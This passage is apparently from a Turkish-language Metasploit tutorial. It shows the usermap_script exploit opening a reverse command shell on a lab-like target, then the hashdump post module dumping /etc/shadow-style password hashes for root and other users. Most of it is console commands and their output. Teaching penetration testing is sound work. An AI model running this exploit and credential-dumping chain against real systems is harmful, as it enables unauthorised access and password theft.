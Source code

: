 Ardından **usermap_script** modülü kullanılarak karşı sistemde oturum açılmakta ve açılan session yani oturum için, **hashdump** modülü ile hash değerleri bulunmaktadır. Başarılı olunduğu takdirde bulunan hash değerleri sonradan kullanım için `loot` tablosuna kayıt edilmektedir.

```bash
msf  exploit**(**usermap_script**)** > exploit

> Started reverse double handler
> Accepted the first client connection...
> Accepted the second client connection...
> Command: echo 4uGPYOrars5OojdL;
> Writing to socket A
> Writing to socket B
> Reading from sockets...
> Reading from socket B
> B: "4uGPYOrars5OojdL\r "
> Matching...
> A is input...
> Command shell session 1 opened **(**172.16.194.163:4444 -> 172.16.194.172:55138**)** at 2012-06-27 19:38:54 -0400

^Z
Background session 1? **[**y/N]  y

msf  exploit**(**usermap_script**)** > use post/linux/gather/hashdump
msf  post**(**hashdump**)** > show options

Module options **(**post/linux/gather/hashdump**)**:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.

msf  post**(**hashdump**)** > sessions -l

Active sessions
**===============**

  Id  Type        Information  Connection
  --  ----        -----------  ----------
  1   shell unix               172.16.194.163:4444 -> 172.16.194.172:55138 **(**172.16.194.172**)**

msf  post**(**hashdump**)** > run

**[**+] root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:0:0:root:/root:/bin/bash
**[**+] sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:3:3:sys:/dev:/bin/sh
**[**+] klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0:103:104::/home/klog:/bin/false
**[**+] msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
**[**+] postgres:$1$Rw35ik.x$MgQgZUuO5pAoUvfJhfcYe/:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
**[**+] user:$1$HESu9xrH$k.o3G93DGoXIiQKkPmUgZ0:1001:1001:just a user,111,,:/home/user:/bin/bash
**[**+] service:$1$kR3ue7JZ$7GxELDupr5Ohp6cjZ3Bu//:1002:1002:,,,:/home/service:/bin/bash
**[**+] Unshadowed Password File: /root/.msf4/loot/20120627193921_msfu_172.16.194.172_linux.hashes_264208.txt
> Post module execution completed
```
